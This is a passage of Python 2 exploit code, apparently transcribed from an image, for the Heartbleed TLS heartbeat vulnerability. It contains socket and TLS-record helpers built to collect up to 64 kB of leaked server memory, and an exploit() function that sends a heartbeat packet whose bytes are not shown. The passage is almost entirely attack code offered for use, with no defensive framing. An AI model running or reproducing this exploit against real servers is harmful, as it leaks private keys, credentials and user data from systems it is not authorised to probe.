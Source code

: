 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


def dump(s):
    packetData = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in s)
    print '%s' % (packetData)
    
  
def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        # Wait until the socket is ready to be read
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
          

# When you request the 64 kB of data, the server won't tell you that it will send you 4 packets.
# But you expect that because TLS packets are sliced if they are bigger than 16 kB.
# Sometimes, (for some misterious reason) the server wont send you the 4 packets;
# in that case, this function will return the data that DO has arrived.

def receiveTLSMessage(s, fragments = 1):
    contentType = None
    version = None
    length = None
    payload = ''

    # The server may send less fragments. Because of that, this will return partial data.
    for fragmentIndex in range(0, fragments):
        tlsHeader = recvall(s, 5) # Receive 5 byte header (Content type, version, and length)

        if tlsHeader is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return contentType, version, payload # Return what we currently have

        contentType, version, length = struct.unpack('>BHH', tlsHeader) # Unpack the header
        payload_tmp = recvall(s, length, 5) # Receive the data that the server told us it'd send

        if payload_tmp is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return contentType, version, payload # Return what we currently have

        print 'Received message: type = %d, ver = %04x, length = %d' % (contentType, version, len(payload_tmp))

        payload = payload + payload_tmp

    return contentType, version, payload
    

def exploit(s):
    s.send(heartbleedPacket)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~